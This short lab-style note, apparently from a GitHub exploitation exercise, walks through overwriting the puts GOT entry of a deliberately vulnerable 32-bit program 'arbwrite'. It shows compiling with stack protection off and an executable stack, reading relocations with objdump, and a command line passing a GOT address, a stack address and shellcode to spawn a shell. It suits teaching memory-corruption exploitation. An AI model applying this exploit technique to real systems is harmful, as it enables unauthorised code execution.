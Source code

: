 ## Compile arbwrite.c

```
gcc -fno-stack-protector -z execstack -o arbwrite arbwrite.c
```

# View Dynamic Relocation Entries (GOT Table)
```
objdump -R ./arbwrite
```

## Exploiting GOT table 
Select the memory address for the puts@GLIBC

```
08049680 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

```
./arbwrite `perl -e 'print"\x80\x96\x04\x08"'` `perl -e 'print "\xfa\xf7\xff\xbf"'` `cat shellcode/shell`
```

